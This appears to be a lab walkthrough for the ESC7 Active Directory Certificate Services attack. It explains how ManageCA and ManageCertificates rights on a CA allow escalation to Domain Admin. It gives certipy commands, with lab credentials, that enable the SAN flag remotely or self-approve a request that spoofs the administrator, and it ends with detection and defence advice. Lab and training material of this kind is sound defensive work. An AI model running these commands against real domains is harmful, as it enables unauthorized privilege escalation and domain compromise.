

# ESC7 — Vulnerable CA Access Control (ManageCA / ManageCertificates)

**Impact:** CA officer/manager rights → **Domain Admin**
**Lab status:** ⚙️ configured; verify the ACE before exploiting (see note)

---

## Concept

The CA has its own permission set, stored in the `CA\Security` registry DACL and
exposed through the certsrv management interface. Two rights matter:

- **ManageCA** (CA Administrator) — reconfigure the CA, including flipping
  `EDITF_ATTRIBUTESUBJECTALTNAME2` (i.e. *enable ESC6 yourself*).
- **ManageCertificates** (CA Officer) — approve/deny pending requests, and issue a
  previously-denied request.

A low-priv principal holding these can either turn on ESC6 remotely, or submit a
request that pends and then approve it themselves.



---

## Configuration in the lab

`lowpriv` is granted ManageCA + ManageCertificates on `ADESC-Root-CA`.

> **⚠️ Verify this one on the DC before relying on it.** The deploy sets the ACE
> via `certutil -setreg CA\Security` inside a `try {}` with a silent `catch`, and
> `-setreg CA\Security` **overwrites** the whole security descriptor rather than
> appending. Confirm the grant actually took:
>
> ```powershell
> certutil -getreg CA\Security
> ```
>
> `lowpriv`'s SID should appear with Allow ManageCA/ManageCertificates. If it is
> missing, set it through the MMC (Certification Authority → CA → Properties →
> Security) or a proper SDDL merge.

---

## Exploitation

### Path A — enable ESC6 remotely, then do ESC6

With ManageCA you can set the SAN flag over RPC:

```bash
certipy ca -u 'lowpriv@adescrtl.lab' -p 'Lab12345!' -dc-ip 10.0.0.5 \
  -target DC01.adescrtl.lab -ca ADESC-Root-CA \
  -enable-attribute-based-san    # sets EDITF_ATTRIBUTESUBJECTALTNAME2
```

Then follow [ESC6](ESC6.md): enroll `User` with a spoofed `-upn`.

### Path B — officer self-approval

With ManageCertificates, submit a request for a privileged template that would
normally pend, then issue it yourself:

```bash
# request (pends)  -> note the Request ID
certipy req ... -template <sensitive> -upn administrator ...
# issue it as an officer
certipy ca -u 'lowpriv@adescrtl.lab' -p 'Lab12345!' -dc-ip 10.0.0.5 \
  -target DC01.adescrtl.lab -ca ADESC-Root-CA -issue-request <ID>
```

---

## Detection & defence

- Audit **CA role assignments** (`certutil -getreg CA\Security`). Only tier-0
  admins should hold ManageCA/ManageCertificates.
- Alert on changes to CA security and on `EDITF_ATTRIBUTESUBJECTALTNAME2` toggles.
- Enable CA auditing (event 4890 — CA config change, 4882 — security permissions
  changed).
